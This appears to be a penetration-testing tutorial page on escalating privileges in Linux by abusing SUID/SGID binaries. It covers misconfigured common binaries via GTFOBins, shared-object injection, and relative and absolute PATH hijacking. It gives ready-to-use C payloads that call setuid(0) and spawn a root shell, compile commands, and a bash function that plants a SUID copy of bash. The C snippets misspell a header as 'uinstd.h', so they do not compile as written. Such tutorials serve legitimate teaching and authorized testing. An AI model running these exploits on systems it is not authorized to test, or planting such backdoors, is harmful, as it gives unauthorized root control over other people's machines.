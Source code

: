 # Introduction
The [Set Owner User ID (SUID)](../../../System%20Internals/Linux/File%20System.md#set-owner-user-id-suid) and [Set Group ID (SGID)](../../../System%20Internals/Linux/File%20System.md#set-group-id-sgid) are special permissions which can be attributed to Linux files and folders. Any files which are owned by root and have SUID set will be executed with elevated privileges. Our goal is to hunt down those files and abuse them in order to escalate our privileges. This can be easily done with the following command:

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Finding%20SUID%20Binaries.png)

## Exploiting Misconfigured Common Binaries
You should diligently inspect the list of files returned. Some standard Linux binaries may allow for privilege escalation if they have the SUID bit set for one reason or another. It is useful to go through these binaries and check them on [GTFOBins](https://gtfobins.github.io/).

 In the above example, we find that `/bin/systemctl` has the SUID bit set and that it also has an [entry in GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20GTFOBins.png)

By following the instructions, although with slight modifications, we can run commands with elevated privileges:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20Escalated%20Privileges.png)

## Privilege Escalation via Shared Object Injection
Some binaries may be vulnerable to Shared Object (SO) Injection. This typically stems from misconfigurations where the binary looks for a specific library in a specific directory, but can't actually find it. If we have write access to this directory, we can hijack the search for the library by compiling our own malicious library in the place where the original one was supposed to be. This is quite similar to [escalating via LD_PRELOAD](Sudo%20Escalation%20via%20LD_PRELOAD.md), but it is a bit more difficult to find and exploit.

You will first need to identify an SUID binary which has misconfigured shared libraries. A lot of the times the binary will refuse to run, saying that it is missing a particular library, however, this is not always the case:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/suid-so%20Run.png)

It is always good practice to run the programme with `strace`, which will print any attempts of the binary to access libraries:

```bash
strace <binary> 2>&1 | grep -iE "open|access"
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/strace%20Library%20Misconfigurations.png)

What stands out in particular is the `/home/user/.config/libcalc.so` library, since `/home/user/.config/` may be a writable directory. It turns out that the directory doesn't even exist, however, we can write to `/home/user/` which means that we can create it.

What now remains is to compile a malicious library into `libcalc.so`.

```cpp
#include <uinstd.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

For older versions of GCC, you may need to use the `_init()` function syntax:

```cpp
#include <uinstd.h>
#include <stdlib.h>

void _init()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Compile the malicious library:
```bash
gcc -shared -fPIC -o libcalc.so libcalc.c # add -nostartfiles if using _init()
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Shared%20Object%20Injection%20Successful.png)

## Privilege Escalation via Path Hijacking
Path Hijacking refers to the deliberate manipulation of environmental variables, most commonly `\$PATH`, such that the invocations of programmes in a binary actually refer to malicious binaries and not the intended ones.

This vector requires more sophisticated digging into the internals of an SUID binary, specifically tracking down the different invocations the binary performs. This can commonly be achieved by running `strings` on the binary, but you will probably have to resort to more serious reverse engineering, as well. Specifically, you want to be on the lookout for shell commands which get executed by the SUID binary.

### Hijacking Relative Paths
Relative paths are comparably easy to hijack - they require little other than editing the `\$PATH` variable. Once you have identified a shell command within an SUID binary which invokes another programme via a relative path, you can just prepend to the `\$PATH` a directory which will contain an executable with the same name as the one originally invoked.

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Relative%20Path.png)

Let's compile our own malicious binary. 

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");

	return 0;
}
```

```bash
gcc -o /tmp/service /tmp/service.c
```

Afterwards, we need to prepend `/tmp` to the `\$PATH` variable:
```bash
export PATH=/tmp:\$PATH
```

And finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Relative%20Path.png)

### Hijacking Absolute Paths
Absolute paths require a bit more work to be hijacked. 

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Absolute%20Path.png)

Luckily, bash turns out to be very sophisticated and allows for the creation of functions which have the forward slash (`/`) character in their name. This means that we can create a malicious bash function with the same name as the absolute path we want to hijack and then our function will be invoked in lieu of the original programme.

First, create the bash function:
```bash
function <absolute path here>() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
```

Next, export the function:
```bash
export -f <absolute path here>
```

Finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Absolute%20Path.png)